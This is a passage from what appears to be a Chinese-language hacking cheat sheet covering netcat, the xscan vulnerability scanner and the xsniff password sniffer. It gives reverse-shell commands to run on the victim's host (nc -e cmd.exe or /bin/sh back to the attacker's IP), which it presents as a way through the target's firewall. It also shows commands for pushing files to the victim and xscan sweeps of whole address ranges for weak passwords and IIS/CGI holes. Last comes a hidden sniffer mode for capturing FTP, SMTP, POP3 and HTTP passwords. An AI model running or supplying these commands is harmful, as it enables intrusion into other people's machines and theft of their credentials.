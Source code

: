  - nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
 - nc -L -p 80 &gt; c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
 - nc -L -p 80 &lt; c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
 - type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
 - 本机上用：nc -l -p 本机端口
 - 在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
 - nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
 - 本机上用：nc -d -l -p 本机端口 &lt; 要传送的文件路径及名称
 - 在对方主机上用：nc -vv 本机IP 本机端口 &gt; 存放文件的路径及名称 传送文件到对方主机
 - 备 注：
 - | 管道命令
 - &lt; 或 &gt; 重定向命令。“&lt;”，例如：tlntadmn &lt; test.txt 指把test.txt的内容赋值给tlntadmn命令
 - @ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt &gt;&gt; d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
 - &gt;与&gt;&gt;的区别 "&gt;"指：覆盖；"&gt;&gt;"指：保存到(添加到）。
 - 如：@dir c:winnt &gt;&gt; d:log.txt和@dir c:winnt &gt; d:log.txt二个命令分别执行二次比较看：用&gt;&gt;的则是把二次的结果都保存了，而用：&gt;则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
 - 八：
 - 扫描工具：xscan.exe
 - 基本格式
 - xscan -host &lt;起始IP&gt;[-&lt;终止IP&gt;] &lt;检测项目&gt; [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
 - xscan -file &lt;主机列表文件名&gt; &lt;检测项目&gt; [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
 - 检测项目
 - -active 检测主机是否存活
 - -os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
 - -port 检测常用服务的端口状态
 - -ftp 检测FTP弱口令
 - -pub 检测FTP服务匿名用户写权限
 - -pop3 检测POP3-Server弱口令
 - -smtp 检测SMTP-Server漏洞
 - -sql 检测SQL-Server弱口令
 - -smb 检测NT-Server弱口令
 - -iis 检测IIS编码/解码漏洞
 - -cgi 检测CGI漏洞
 - -nasl 加载Nessus攻击脚本
 - -all 检测以上所有项目
 - 其它选项
 - -i 适配器编号 设置网络适配器, &lt;适配器编号&gt;可通过"-l"参数获取
 - -l 显示所有网络适配器
 - -v 显示详细扫描进度
 - -p 跳过没有响应的主机
 - -o 跳过没有检测到开放端口的主机
 - -t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
 - -log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
 - 用法示例
 - xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
 - xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
 - xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
 - 九：
 - 命令行方式嗅探器: xsniff.exe
 - 可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
 - 参数说明
 - -tcp 输出TCP数据报
 - -udp 输出UDP数据报
 - -icmp 输出ICMP数据报
 - -pass 过滤密码信息
 - -hide 后台运行
 - -host 解析主机名
 - -addr IP地址 过滤IP地址
 - -port 端口 过滤端口